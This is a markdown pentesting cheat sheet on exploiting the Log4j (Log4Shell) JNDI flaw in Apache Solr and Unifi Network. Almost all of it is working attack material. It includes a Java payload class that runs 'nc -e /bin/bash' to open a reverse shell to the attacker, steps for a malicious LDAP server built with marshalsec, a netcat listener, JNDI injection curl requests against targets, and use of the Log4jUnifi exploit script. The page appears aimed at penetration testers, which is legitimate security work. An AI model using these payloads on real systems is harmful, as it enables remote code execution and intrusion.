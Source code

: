 ```yaml
---
title: Log4j Pentesting
desc: Log4j has zero-day vulnerabilities to Log4Shell, Log4Unifi.
tags: [Apache, Java, JNDI, Log4j, Log4shell, Maven]
alts: []
render_with_liquid: false
---
```


## Exploit Apache Solr (JNDI)

You need to prepare your four local terminals.

1. **Start LDAP Server on Your Local Terminal 1**

    1. **Install Maven**

        ```sh
        sudo apt install maven
        ```

    2. **Get the Payload**

        Download the repository.

        ```sh
        git clone https://github.com/mbechler/marshalsec.git
        cd marshalsec
        ```

        Then build the marshalsec utility

        ```sh
        mvn clean package -DskipTests
        ```

    3. **Start LDAP Server**

        ```sh
        java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<your-local-ip>:8000/#Exploit"
        ```

2. **Host the Exploit on Your Local Terminal 2**

    1. **Create the Exploit with Java**

        First, create a new directory and create a new exploit named "Exploit.java" in the directory.  
        Open your favorite editor like vim.

        ```sh
        mkdir exploit
        cd exploit
        vim Exploit.java
        ```

        In editor, enter the following code.

        ```java
        public class Exploit {
        static {
            try {
                java.lang.Runtime.getRuntime().exec("nc -e /bin/bash <your-local-ip> <your-local-listener-port>");
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
        }
        ```

    2. **Compile the Payload**

        ```sh
        javac Exploit.java -source 8 -target 8
        ```

    3. **Start Web Server to Host the Payload**

        ```sh
        python3 -m http.server 8000
        ```

3. **Open Listener on Your Local Terminal 3**

    ```sh
    nc -lvnp <your-local-listener-port>
    ```

4. **Access the Target Apache Solr Admin UI**

    ```sh
    curl 'http://<target-ip>:<target-port>/solr/admin/cores?foo=$\{jndi:ldap://<your-local-ip>:1389/Exploit\}'
    ```

<br />

## Exploit Unifi Network using Log4Unifi

**Log4Unifi** is an exploitation Log4j tool in **Unifi Network**.

1. **Test the Vulnerability in the Target Web Page**

    ```sh
    curl -i -s -k -X POST -H $'Host: vulnerable.com:8443' -H $'Content-Length: 104' --data-binary $'{\"username\":\"a\",\"password\":\"a\",\"remember\":\"${jndi:ldap://9ulral.dnslog.cn:1389/o=tomcat}\",\"strict\":true}' $'https://<target-ip>:8443/api/login'
    ```

2. **Open Listener on Your Local Machine**

    ```sh
    nc -lvnp 4444
    ```

3. **Exploit**

    Download the exploit from [the repository](https://github.com/puzzlepeaches/Log4jUnifi){:target="_blank"}.

    ```sh
    git clone https://github.com/puzzlepeaches/Log4jUnifi
    cd Log4Unifi
    ```

    Exploit

    ```sh
    python exploit.py -u https://<target-ip>:8443 -i <your-local-ip> -p 4444
    ```

Reference: [https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi](https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi){:target="_blank"}
